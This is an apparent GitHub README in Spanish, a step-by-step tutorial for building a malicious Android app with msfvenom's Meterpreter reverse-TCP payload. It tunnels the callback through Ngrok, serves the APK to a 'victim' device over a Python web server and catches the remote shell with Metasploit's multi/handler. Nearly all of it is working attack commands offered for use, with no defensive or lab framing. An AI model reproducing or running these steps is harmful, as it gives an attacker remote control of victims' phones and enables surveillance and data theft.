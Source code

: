 # Video: https://youtu.be/YaxFxesD0uE


# Previamente asegurate de:
1. Descarga Ngrok [Ngrok] (https://ngrok.com/download) ![](https://github.com/ROBTRT421/apk.android.meterpreter.msfvenom/blob/main/NgrokDownload.png)
2. instala desde la terminal: $ sudo tar xvzf ~/Downloads/ngrok-v3-stable-linux-amd64.tgz -C /usr/local/bin (ojo con el nombre de la carpeta podria ser "Descargas" o "Downloads" segun el idioma de configuracion de tu kali)
3. Abre una cuenta gratuita en Ngrok y despues vincula tu token desde la pagina principal de Ngrok dentro de tu perfil (https://github.com/ROBTRT421/apk.android.meterpreter.msfvenom/blob/main/Ngrokvinculacion.png)
4. Tener actualizado tu sistema operativo: $ sudo apt update && apt upgrade -y.
5. Descarga e instala Metasploit-Framework desde la terminal : $ sudo apt install metasploit-framework



# Tutorial
1. Abrimos una terminal como usuraio Root: $ sudo su
2. Arrancamos Metasploit-Framework: $ msfconsole (https://github.com/ROBTRT421/apk.android.meterpreter.msfvenom/blob/main/msfconsole.png)
3. Desde una segunda terminal montamos un servidor tcp con Ngrok por el puerto 4646 por el cual estaremos en escucha: $ ngrok tcp 4646
4. En nuestra sesion con Metasploit creamos el payload con msfvenom para generar una conexion tcp con el siguiente comando : $  msfvenom -p android/meterpreter/reverse_tcp LHOST=(ojo porque el host nos lo proporcionara Ngrok en el apartado fowardign) al igual el LPORT=(pon atencion a laimagen proporcionada) -o msf.apk
5. Una vez hecho todo esto la aplicacion estara creada y lista para ser descargada desde nuestro equipo "victima".
6. Crearemos un servidor con python para que nuestra aplicacion sea descargada desde el equipo "atacante" al equipo "victima" : $ python3 -m http.server [puerto] (https://github.com/ROBTRT421/apk.android.meterpreter.msfvenom/blob/main/ServidorPython.png)



# Aplicacion
Una vez que la apliacion fue creada eh instalada con exito en el equipo "victima" pasaremos a ponernos en escucha en una nueva ventana de metasploit 
1. Iniciamos Metasploit : $ msfconsole
2. Configuramos un Listener : $ use exploit/multi/handler
3. Seteamos el mismo payload de la app maliciosa : $ set payload/meterpreter/reverse_tcp
4. Seteamos el LHOST pero con todas las conexiones entrantes (all incoming conections) : $ set LHOST 0.0.0.0
5. Seteamos el puerto de escucha que habiamos configurado antes : $ set LPORT 4646
6. Arrancamos el payload : $ exploit




